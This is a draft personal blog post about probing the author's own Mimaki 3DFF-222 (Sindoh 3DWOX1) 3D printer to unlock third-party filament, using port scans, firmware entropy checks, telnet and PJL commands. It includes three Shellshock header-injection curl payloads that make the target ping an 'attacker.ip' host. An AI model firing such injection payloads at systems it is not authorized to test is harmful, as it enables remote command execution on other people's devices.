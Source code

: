 ```yaml
---
title: Hacking 3DFF-222 aka 3DWOX1
slug: hacking-3dff-222-aka-3dwox1
date_published: 1970-01-01T00:00:00.000Z
date_updated: 2023-04-27T18:40:56.000Z
draft: true
---
```


I came into a 'Mimaki' 3DFF-222 3D printer last year? Mimaki is in quotes as it's really a rebadged Sindoh 3DWOX1, although I'm not even sure rebadged is the correct term as it carries the branding for both Mimaki and Sindoh at the same time.

Having received the printer as a promotion whereby a large purchase for other Mimaki equipment provided the 3DFF for free, I wasn't even sure I was going to keep the 3DFF. Initially, I thought I would just turn around and sell the 3DFF and keep the money to offset the price of the Mimaki equipment. After seeing that the 3DFF could print open source filament, I was a bit intrigued and decided to give it a whirl before deciding on whether to keep or sell.

Well, it wasn't long before I was pretty disappointed. Apparently, Mimaki decided to cripple the machine that they badged and remove/bar the ability to use open source filament. Seeing as to how it felt that Mimaki didn't spend a lot of energy on rebadging this printer, I guessed that maybe it would be possible to modify/hack the 3DFF to utilize open source filaments. And so, the following:

UPDATE: *I received info about how to enable open material. Anybody reading this can contact me for the details. Still poking around this printer and it's internals for fun though.*

The 3DFF has wireless WiFi. I decided to scan available open ports:

`sudo nmap -sn -n 192.168.1.0/24 > devices.txt`
`nmap -sV -iL devices.txt > devices-ports.txt`

Note: 'sudo' is needed for root access when running nmap with -n switch to show corresponding MAC addresses. Otherwise, the nmap will still scan, but will not return any MAC addresses. Nicer to have the MACs to determine which IP is the 3DFF. I had opened the right side panel to reveal the main board and also the WiFi module which showed that the module was manufactured by LG Innotek.

Checking the list of ports for 3DFF it was shown that the following ports were open:

1. 80
2. 8080
3. 901

I downloaded the firmware from Sindoh's site here. After a quick look with binwalk:

`binwalk -E image.bin`
`binwalk -E image.app`

Both results for entropy was high, indicating that both files were encrypted or compressed.

'strings' command was useless, dumping way too much random data for it to be useful.

Attempted many different tries of shellshock:

`curl -H 'User-Agent: () { :; }; ping attacker.ip' [http://target.ip/](http://target.ip/)`
`curl -H 'Cookie: () { :; }; ping attacker.ip' [http://target.ip/](http://target.ip/)`
`curl -H 'Referer: () { :; }; ping attacker.ip' [http://target.ip/](http://target.ip/)`

Installed and tried nikto tool which seemed worthless.

SMB protocol might be available on HTTP server. Nevermind, maybe not. Checked with Rust scanner [opscan](https://crates.io/crates/opscan).

`opscan 192.168.1.0/24`

Tried SMB anyways on port 9100 (as default ports of 139 and 445 were obviously not open):

`smbclient -L 192.168.0.45 -p 9100`
`protocol negotiation failed: NT_STATUS_IO_TIMEOUT`

With no success.

Note: make sure to use opscan with a range of IPs. When I tried to scan all ports for a SINGLE IP then opscan would fail and return nothing. It's only when I tried to feed it a range of IPs scanning for a single or multiple ports that it worked.

OK, so after additional testing and having cloned and downloaded the opscan Github repo, I found that the anomalies with the opscan doesn't seem to be related to using a range of IPs. It seems that the problem lies with the concurrency settings. When I dialed down the concurrency settings to 100 instead of using the default (which is set to ~65000 for a private IP) I am able to successfully scan a single IP.

After gettting opscan to "work" with just a single IP and scanning all ports, I noticed that Rust opscan was showing different ports open than nmap. Maybe I wasn't using nmap with the proper settings? Here are the ports that opscan found:

1. 1337: labeled "waste" by opscan
2. 80: labeled "http" (this would only be discovered when I wake up the 3D printer by going to it's corresponding web page via a browser)
3. 8080: labeled "http-proxy"
4. 9100: labeled "jetdirect"
5. 35345: labeled "unknown"

If I feed the these open ports to nmap, e.g.:

`nmap 192.168.0.45 -p9100`

The nmap utility will confirm that the port is open.

Note: So, after a quick google, I [found](https://nmap.org/book/man-port-specification.html#:~:text=By%20default%2C%20Nmap%20scans%20the,1%2C000%20ports%20for%20each%20protocol.&amp;text=This%20option%20specifies%20which%20ports,scan%20and%20overrides%20the%20default.) that nmap by default will only scan the "most common 1,000" ports. There you go.

After my previous revelation, a new scan with nmap using the following command:

`nmap 192.168.0.45 -p1-10000`

Had the almost the same results as opscan and took 10.18 seconds to complete, but! When I tried a scan with nmap for 65K ports, the result was not so good. I left nmap to run and after around 30 minutes, it still wasn't complete and I killed the process. The laptop that I was using has some subpar specs, but even so, it seems that opscan set to 100 concurrency was way better.

Tried telnet'ing to port 9100:

`telnet 192.168.86.28 9100`

Another interesting scan method:

`avahi-browse -v -a -t`

This basically uses mDNS discovery to locate broadcasting services in your domain.

Hacking the printer ports does not seem to be working. Tried to telnet and nc to port 9100 and send it pjl commands, but no response. [This](http://h10032.www1.hp.com/ctg/Manual/bpl13208.pdf) is documentation on pjl from HP. [This](https://jacobsalmela.com/2015/02/05/change-the-serial-number-on-hp-printers-using-printer-job-language-and-netcat-ftp/) is a great walk through to send pjl commands via nc.

Going back to checking possible compression scheme of firmware download (image.bin). First by checking the first 10 bytes of the file:

`head -c 10 image.bin`

So, I went back to telnet and tried PJL (a printer language – see [this](https://developers.hp.com/system/files/PJL_Technical_Reference_Manual.pdf) manual for a great reference).

`Trying 192.168.86.28...`
`Connected to 192.168.86.28.`
`Escape character is '^]'.`

`@PJL INFO STATUS`
`@PJL INFO STATUS`
`CODE=42200`

`^]`

`telnet> QUIT`
`Connection closed.`

As you can see above, PJL does work for this printer, but only for a limited range of commands. Make sure you type PJL in all caps. The rest of the command is case insensitive. The second "INFO STATUS" is the echo from the printer and then the "code=42200" is the result.

I then typed ctrl-v to send the escape character which brings me to the telnet prompt, where I can type "quit" (again case insensitive) to exit telnet. If you type "?" in the prompt you will be given help for the various commands that telnet accepts.

I tried FSDIRLIST in many different combinations and couldn't get a correct response. My suspicion is that this command is not supported by this printer. In fact, it seems that "INFO STATUS" was one of the few commands I could get to work. Not sure if this vector is going to be all that helpful.
